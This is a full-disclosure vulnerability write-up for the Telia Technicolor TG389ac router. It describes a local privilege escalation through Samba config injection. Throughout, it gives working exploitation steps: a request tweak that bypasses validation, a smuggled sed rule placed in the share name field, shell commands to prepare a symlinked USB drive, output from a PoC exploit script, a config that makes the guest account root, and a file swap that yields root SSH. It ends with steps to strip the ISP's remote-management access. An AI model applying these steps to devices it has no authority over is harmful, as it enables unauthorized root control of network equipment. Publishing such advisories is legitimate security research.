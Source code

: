 # FDEU-CVE-2020-1FC5

# Summary

Improper restricted user's input validation in Telia Technicolor TG389ac router causes local privilege escalation.

# Tech details

Telia Lithuania internet provider uses CPE (customer premise equipment) Technicolor router model TG389ac which has a restricted admin user that allows to only change some settings. Most of the advanced settings are locked down and hidden from the customer. The current firmware version is 17.1.7992 and it is known to contain vulnerabilities that allow customers to escalate privileges and unlock full access to all router's features. One of the vulnerable components called "Content sharing" allows customers to plug a USB mass storage device and share its contents using the built-in Samba server. The customer can provide a specially crafted setting using the admin's web UI that enables Samba symlink feature. Such a symlink that points to "/" will expose the router's file system with read-write access.

# Vulnerabilities

## Improper user input validation

Content sharing web administration looks like this:

![Content sharing web UI](FDEU-CVE-2020-1FC5-telia-technicolor-tg389ac-vulnerability-content-sharing.png)

When user tries to enter non-alphanumeric symbols, the error comes back:

```
Only alphanumeric, space, underscore and dash characters allowed
```

![Validation failed](FDEU-CVE-2020-1FC5-telia-technicolor-tg389ac-vulnerability-validation-failed.png)

But if the user tries to change the settings without enabling Samba, the settings will get written into the config file:

![Saved successfully](FDEU-CVE-2020-1FC5-telia-technicolor-tg389ac-vulnerability-saved-successfully.png)

However, the web UI will not allow to enable the service if the settings contain illegal symbols.

By slightly tampering the web request it is possible to bypass this verification and enable Samba with the provided malicious parameters. To modify the request simply remove the parameter `samba_filesharing=1`.

## Samba config injection

When Samba service starts it parses the parameters and uses a template file to replace placeholders and generate the runtime config smb.conf. To replace the params the following `sed` command is used in `/etc/init.d/samba`:

```
	sed -e "s#|NAME|#$name#g" \
	    -e "s#|WORKGROUP|#$workgroup#g" \
	    -e "s#|DESCRIPTION|#$description#g" \
	    -e "s#|INTERFACES|#$interfaces#g" \
	    -e "s#|CHARSET|#$charset#g" \
	    /etc/samba/smb.conf.template > /var/etc/smb.conf

```

The `sed -e` command supports multiple rules delimited by `;`. In this case it is possible to modify the rule to look like the following:

```txt
"s#|NAME|#Technicolor#g ; s#follow symlinks = no#follow symlinks = yes#g"
```

To achieve this the `$name` variable must look like:

`Technicolor#g ; s#follow symlinks = no#follow symlinks = yes`

## Privilege escalation

To exploit this vulnerability a user would need to create an EXT2 USB flash drive:

```
mkfs.ext2 /dev/sdX1
mkdir /tmp/sdX1
mount /dev/sdX1 /tmp/sdX1
cd /tmp/sdX1
touch exploit
ln -s / rootfs
cd ~
umount /tmp/sdX1
```

Plug it into the router's USB port and execute the provided PoC exploit:

[https://github.com/full-disclosure/FDEU-CVE-2020-1FC5](https://github.com/full-disclosure/FDEU-CVE-2020-1FC5)

```
# python3 tg389ac_samba_exploit.py http://192.168.1.254 admin
Password: 
[*] Init SRP authentication
[*] Get CSRF token
[*] Send authentication challenge
[*] Send authentication response
[*] Renew CSRF token
[*] Submit dummy samba config
[*] Submit samba exploit
[*] Reboot the router
b'{ "success":"true" }'
[*] Done. Wait until the router boots and open the network share
Example: \\192.168.1.254 or smb://192.168.1.254
```

Samba config will be injected with the following values:

```
follow symlinks = yes
wide links = yes
security = user
guest account = root
```

After the router reboots, Samba service will start with symlinks enabled. Navigate to `\\192.168.1.254\rootfs` and replace the `etc/config/button` file with this one:

[https://github.com/full-disclosure/FDEU-CVE-2020-1FC5/blob/master/etc-config-button](https://github.com/full-disclosure/FDEU-CVE-2020-1FC5/blob/master/etc-config-button)

Now press the WPS button and in a about 10 seconds try to login on SSH as `root:root`. Change password immediately after login.

## Removing Telia's backdoor

**WARNING. By removing the backdoor you void your warranty and dissapoint Telia**

At any time Telia can remotely connect to your router and change any setting, see your traffic, sniff your secrets. We also recommend removing all Telia's backdoors.

Connect on SSH and remove `/etc/dropbear/authorized_keys` and `/home/engineer/.ssh/authorized_keys`.

Run the following:

```
uci set cwmpd.cwmpd_config.state=0
uci commit
rm /etc/cwmp*
```

Remove the following lines from `/etc/nginx/nginx.conf`:

```
listen 8443 ssl;
listen [::]:8443 ssl;
listen 8080 tproxy;

sessioncontrol.setManagerForPort("default", "8443")
sessioncontrol.setManagerForPort("assistance", "443")
```

Remove all Telia's backdoor rules from `/etc/config/firewall`: Allow-8443-VoIP, Allow-8443-WAN, Allow-SSH-VoIP, Allow-SSH-WAN. They look like this:

```
config rule
        option name 'Allow-8443-WAN'                  
        option src 'wan'
        option proto 'tcp'
        option dest_port '8443'

```

For more advanced list of what you can do with the unlocked technicolor router, please check these links:

* [https://wuseman.github.io/TG799VAC-XTREME-17.2-MINT/](https://wuseman.github.io/TG799VAC-XTREME-17.2-MINT/)
* [https://hack-technicolor.readthedocs.io/en/latest/Unlock/](https://hack-technicolor.readthedocs.io/en/latest/Unlock/)

# Timeline

* 2020-08-13 - vulnerability found and exploit created
* 2020-08-14 - full disclosure


